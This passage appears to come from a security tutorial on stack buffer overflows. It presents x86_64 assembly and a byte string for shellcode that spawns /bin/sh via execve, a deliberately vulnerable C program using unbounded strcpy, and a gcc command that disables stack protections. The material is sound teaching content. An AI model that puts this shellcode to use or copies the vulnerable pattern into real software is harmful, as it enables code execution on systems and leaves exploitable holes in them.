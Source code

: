 ## Shell Code <a name="section3"></a>

The  following x86_64 assembly code executes `/bin/shell`via an `execve()` system call.
```assembly
jmp string           ; \xeb\x17             jump to string:

shellcode:
pop %rdi             ; \x5f                  %rdi points to .string
xor %rdx, %rdx       ; \x48\x31\xd2          %rdx contains NULL (or %dl 0x00)
movb %dl, 0x7(%rdi)  ; \x88\x57\x07          copy 0x00 at end of .string
mov %rdi, 0x8(%rdi)  ; \x48\x89\x7f\x08      copy .string addr into argv[0]
mov %rdx, 0x10(%rdi) ; \x48\x89\x57\x10      copy NULL into argv[1]
lea 0x8(%rdi), %rsi  ; \x48\x8d\x77\x08      copy addr of argv[] to %rsi
movb $0x3b, %al      ; \xb0\x3b              set execve syscall code in %rax
syscall              ; \x0f\x05              execute syscall

string:
call shellcode       ; \xe8\xe4\xff\xff\xff  push .string address on stack and jump to shellcode:
.string "/bin/sh"    ; /bin/sh
```
The binary machine instructions result in the following 37 bytes of executable shell code
```C
char shellcode[] =
   "\xeb\x17\x5f\x48\x31\xd2\x88\x57\x07\x48\x89\x7f\x08\x48\x89\x57" 
   "\x10\x48\x8d\x77\x08\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh";
```

**C 3**: <a name="c3"></a> The C program [exploit.c](exploit.c) differs from [overflow.c](overflow.c) just in the size of the buffer `buf` which has been increased to 48 bytes in order to accomodate the shell code listed above:
```C
 1 #include <string.h>
 2 #include <stdio.h>
 3 #include <stdlib.h>
 4 #include <stdint.h>
 5 #include <inttypes.h>
 6
 7 char* copy(char *b)
 8 {
 9     char  buf[48];
10
11     strcpy(buf, b);
12
13     printf("&buf 0x%016" PRIx64 " rbp 0x%016" PRIx64 " rip 0x%016" PRIx64 "\n",
14           (intptr_t*)buf, *(intptr_t*)(buf + 48), *(intptr_t*)(buf + 56));
15 }
16
17 int main(int argc, char** argv)
18 {
19     char *b;
20
21    if (argc < 2)
22    {
23        exit(1);
24    }
25    copy(argv[1]);
26    printf("We happily returned!\n");
27    exit(0);
28 }
```
We compile `exploit.c`whith disabled canaries and enabled stack execution
```console
> gcc -ggdb -fno-stack-protector -Wa,--exec -o exploit exploit.c
```

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/